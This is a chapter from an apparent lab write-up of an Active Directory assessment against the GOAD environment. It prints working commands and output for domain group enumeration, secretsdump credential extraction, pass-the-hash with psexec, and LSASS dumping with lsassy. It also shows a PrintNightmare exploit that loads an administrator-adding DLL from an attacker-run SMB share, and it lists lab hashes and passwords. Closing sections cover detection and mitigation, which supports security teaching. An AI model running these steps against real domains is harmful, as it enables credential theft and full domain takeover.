







# Privilege Escalation and Domain Compromise

## Objective

This phase tested whether the administrative access obtained in the child domain could be used to identify privileged accounts, extract domain credential material, and establish control voer domain systems.

## Starting position

- Valid `robb.stark` credentials
- Administrative SMB access in `north.sevenkingdoms.local`
- Access to `WINTERFELL` and `CASTELBLACK`
- No forged tickets at the beginning of this phase

## Privileged group discovery

`rpcclient` was used to enumerate domain groups and resolve the members of `Domain Admins`:

```bash
rpcclient -U 'robb.stark%sexywolfy' 10.4.10.11

# Relevant interactive commands: enumdomgroups; querygroupmem 0x200
```





The returned RIDs mapped to:

```text
NORTH\\Administrator
NORTH\\eddard.stark
```

This identified `eddard.stark` as a high-value account before any credential material was used.

## Domain credential extraction

Impacket's `secretsdump.py` was run against `WINTERFELL` with the privileged `robb.stark` credential:

```bash
secretsdump.py 'north.sevenkingdoms.local/robb.stark:sexywolfy@10.4.10.11'
```

The command returned domain credential material, including:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:34b24f1a67d914d8ef876f8bd02f3f0b:::
eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
```

The important result was that both a Domain Admin credential and `krbtgt` key material was exposed.

At that point, the impact was no longer limited to one host. The assessment had reached complete compromise of the child domain's authentication boundary.

## Pass-the-hash validation

The recovered NT hash for `eddard.stark` was used to authenticate without recovering the plaintext password:

```bash
psexec.py north.sevenkingdoms.local/eddard.stark@10.4.10.11 -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8
```

The resulting remote shell confirmed administrative execution on `WINTERFELL`.


## LSASS credential access

With administrative access, LSASS memory on `CASTELBLACK` was assessed using `lsassy`:

```bash
lsassy -u eddard.stark -p "" -H d977b98c6c9282c5c478be1d97b237b8 -d north.sevenkingdoms.local 10.4.10.22
```

This resulted in:

**NTLM and SHA1 Hashes:**
```bash
10.4.10.22 - NORTH\CASTELBLACK$                               [NT] 0073abf6ce521277f2d1a148bc955aa9 | [SHA1] 057ab9db09f89ca2659dcffccbbbf363e896d5af

10.4.10.22 - NORTH\robb.stark                                 [NT] 831486ac7f26860c9e2f51ac91e1a07a | [SHA1] 3bea28f1c440eed7be7d423cefebb50322ed7b6c

10.4.10.22 - NORTH\sql_svc                                    [NT] 84a5092f53390ea48d660be52b93b804 | [SHA1] 9fd961155e28b1c6f9b3859f32f4779ad6a06404

10.4.10.22 - NORTH\jon.snow                                   [NT] b8d76e56e9dac90539aff05e3ccb1755 | [SHA1] 1315aeb7efe3eed73b568094db32a90f2e24a248

10.4.10.22 - CASTELBLACK\localuser                            [NT] 8846f7eaee8fb117ad06bdd830b7586c | [SHA1] e8f97fba9104d1ea5047948e6dfb67facd9f5b73
```

**Plaintext Passwords:**
```bash
10.4.10.22 - north.sevenkingdoms.local\CASTELBLACK$           [PWD] wGC870k%/[bHDQHK$eg;5h$>4&t[NygJP]l16jqa?!CaL69P]!=%xk7@qkdZYk&J"61OyMAL+n=6UqSh]kIh:t7spo\t;KNWl>FtN\i<E=VYxG#5hG?mhN(b

10.4.10.22 - NORTH.SEVENKINGDOMS.LOCAL\sql_svc                [PWD] YouWillNotKerboroast1ngMeeeeee
```

**Kerberos Tickets:**
```bash
TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_77ebdaad_20250108035512.kirbi TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_936064ee_20250108035512.kirbi TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cd6de780_20250108072401.kirbi TGT_NORTH.SEVENKINGDOMS.LOCAL_CASTELBLACK$_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d64496a2_20250108072401.kirbi TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_cbdc1708_20250108011355.kirbi TGT_NORTH.SEVENKINGDOMS.LOCAL_jon.snow_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_d6b61eec_20250108011355.kirbi TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_63d16d9f_20250108071403.kirbi TGT_NORTH.SEVENKINGDOMS.LOCAL_robb.stark_krbtgt_NORTH.SEVENKINGDOMS.LOCAL_ff508b0c_20250108071403.kirbi
```

**Masterkeys:**
```bash
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
{3d4f266a-de48-4dfb-9c6a-66199d459c70}:653eb6c7703e25902ed8155e7155c143cbfdc1c0
{33bfcf95-1f92-4e5e-b6a7-9cb352a2f974}:06d70e6e1288db973a8c9c90068dbed7a619f357
{83cc6bf8-de96-4c69-9873-fa92c33d7472}:3b7ae371d4d1bcb30079333710352f8dbd447a8c
{c824016c-86f8-40d7-80b9-8b8cb456dffd}:05815587d7906ebd6a7704bc859a9b9c7af666f2
{dadb3c63-2a33-4d51-a5a9-195d30522492}:66f6ad8f61a8bf24e5d1531750ec8b6c465b31a6
{df4fb521-2ef6-466b-b985-ba986c151ace}:d5386dd8bb8ceb3a1b7c059a896d71f3ced221ad
{4d72c6d2-f696-4db2-a537-d87f70307e10}:17ec2cd5ac955dacf1b59054f7686e3cf8f28238
```

So, the output showed multiple categories of sensitive authentication material:

- NTLM credentials for active accounts
- A plaintext serivce-account password
- Kerberos ticket material
- Machine-account secrets
- DPAPI-related material

The plaintext service-account credential was particularly important because it showed that privileged access to one Windows system could expose credentials belonging to other users and services that had authenticated there.

## Alternative escalation path: PrintNightmare

First, the spooler service was checked across the GOAD hosts:

```bash
# Original syntax
crackmapexec smb 10.4.10.10-23 -M spooler

# Current equivalent
nxc smb 10.4.10.10-23 -M spooler
```



The serivce appeared reachable on the assessed systems. 

In the file below, there is a `RunCMD` function which using the system function adds a user **halilPrintNightmare** with hte password **halilWasHere**.

Then it adds this user to the **Administrators** group, which grants administrative privileges.

This function is called when the DLL is loaded (DLL_Process_ATTACH), which is inside the DllMain function that acts as the entry point for the DLL.



It was compiled using hte **x86_64-w64-mingw32-gcc**:

```bash
x86_64-w64-mingw32-gcc -shared -o halilPrintNightmare.dll printNightmare.c
```
This creates a `.dll` file, and now let's set up an SMB server on the location where `.dll` file is:

```bash
smbserver.py -smb2support ATTACKERSHARE .
```

Afterwards, the **CVE-2021-1675** was cloned and tried on the old unpatched server on `MEEREEN`:

```bash
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare 

python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@meereen.essos.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```

This got the `jorah.mormont` credentials:



Now the exploit is confirmed as the new user `halilPrintNightmare` can be seen:


## Result

This phase confirmed:
- Membership of high-value domain accounts
- Extraction of child-domain credential material
- Pass-the-hash administrative access
- Sensitive credential exposure from LSASS
- Compromise of the child-domain `krbtgt` material

## Security impact

A privileged credential with replication or domain-controller access can expose the credentials of the entire domain.
Compromise of `krbtgt` is especially sever because it enables forger Kerberos Ticket. 

Granting tickets can outlast ordinary password resets!

LSASS access also extends the impact beyond the initially compromise account because it can expose credentials and tickets from other active sessions.

## Detection opportunities

- Directory replication activity from non-domain-controller systems or unexpected accounts
- Event `4662` activity involving directory replication rights
- Remote service creation and execution associated with PsExec-style behavior
- Access to LSASS process or creation of LSASS dump files
- Authentication using NTLM hashes from unusual systems
- Print Spooler RPC activity on domain controllers and servers that do not need printing
- New local administrators, printer drivers, or DLLs written to spooler directories

## Mitigation

- Restrict directory replcation rights to required domain-controller and identity-management accounts
- Protect privileged accounts with separate administrative workstations and logon restrictions
- Enable protections that reduce credential material available to LSASS, including Credential Guard where supported
- Use Windows LAPS for local administrator passwords
- Disable the Print Spooler on domain controllers and servers that do not require it
- Apply current Windows security updates and harden Point and Print policy
- Monitor and investigate any exposure of `krbtgt` material as a domain-level incident

## MITRE ATT&CK mapping

- `T1087.002` - Domain Account Discovery
- `T1069.002` - Domain Groups Discovery
- `T1003.006` - DCSync / Domain Controller Credential Extraction
- `T1550.002` - Pass the Hash
- `T1003.001` - LSASS Memory
- `T1068` - Exploitation for Privilege Escalation

## Key takeaway

The decisive transition was not the remote shell itself. 

It was access to domain credential material. Once the Domain Admin and `krbtgt` keys were exposed, normal account-level containment was no longer sufficient. The domain's Kerberos trust boundary had to be considered compromised.

## Navigation

[Previous: Credential access and lateral movement](03-credential-access-and-lateral-movement.md) | [Assessment index](../README.md) | [Next: Golden Ticket and cross-domain trust abuse](05-golden-ticket-and-cross-domain-trust-abuse.md)